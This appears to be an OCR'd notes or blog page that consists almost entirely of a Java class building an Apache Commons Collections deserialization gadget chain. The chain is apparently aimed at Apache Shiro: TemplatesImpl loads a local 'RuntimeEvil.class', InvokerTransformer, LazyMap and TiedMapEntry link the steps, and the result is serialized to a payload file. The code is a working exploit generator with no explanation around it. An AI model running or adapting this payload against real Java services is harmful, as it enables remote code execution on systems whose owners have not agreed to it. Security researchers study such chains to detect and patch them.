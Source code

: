 ```java
public class shiroNoArrayCC {
    public static void main(String []args) throws Exception
    {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, templatesClass);
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove(templatesClass);
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, invokerTransformer);
        serialize(hashMap);
//        unserialize("cc6.ser");
    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806164241329.png)
